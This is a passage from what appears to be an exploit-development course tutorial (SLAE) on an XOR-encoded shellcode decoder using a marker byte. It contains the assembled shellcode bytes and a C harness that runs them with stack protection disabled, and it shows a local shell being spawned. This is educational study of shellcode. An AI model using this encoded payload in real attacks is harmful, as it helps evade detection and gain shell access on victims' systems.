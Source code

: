 So now what happens is we keep moving along with the whole length of
encoded shellcode, finally when we hit 0xaa the `xor` ends up in a
zero value and that sets the Zero Flag and hands `jz Shellcode` and
transfer goes to the `Shellcode`. If not, we keeping incrementing 
`esi` and keep decoding more and more the encoded shellcode.

Now, let's compile and get the shellcode

```
nasm -f elf32 xor-decoder-marker.nasm
ld -o xor-decoder-marker xor-decoder-marker.o
shellcode-dump.sh xor-decoder-marker
"\xeb\x09\x5e\x80\x36\xaa\x74\x08\x46\xeb\xf8\xe8\xf2\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a\xaa"
```

paste it on the `shellcode.c`

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x09\x5e\x80\x36\xaa\x74\x08\x46\xeb\xf8\xe8\xf2\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a\xaa";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

and compile it

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

run

```
osboxes@osboxes:~/SLAE-Code/Shellcode/XOR-Encoder$ ./shellcode 
Shellcode Length:  42
$ 
$ 
$
```

and there we go. Just another way of going ahead and doing it.
Ok, we have this fun. Now let's try analyze the shellcode using gdb.
What I really want is to see that decoding happening in real time.
So that really be fun. Let me load up gdb
